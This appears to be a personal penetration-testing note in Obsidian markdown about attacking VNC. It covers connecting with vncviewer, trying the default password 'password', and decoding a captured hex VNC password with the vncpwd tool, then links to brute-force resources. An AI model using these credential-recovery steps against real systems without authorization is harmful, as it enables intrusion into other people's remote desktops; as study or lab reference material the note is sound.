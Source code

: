 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Accessing VNC
```bash - kali
vncviewer $TARGET
```

- use `SHIFT` + `CONTROL` + `ALT` + `DEL` to unlock screen

```bash - kali
password
```

#### Cracking hex VNC password

![[Pasted image 20220114162956.png]]

```bash - kali
git clone https://github.com/jeroennijhof/vncpwd
```

```bash - kali
cd vncpwd
```

```bash - kali
sudo make
```

```bash - kali
./vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
```

![[Pasted image 20220114162832.png]]

#### Attacking VNC
https://www.hackingarticles.in/password-crackingvnc/

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against VNC]]
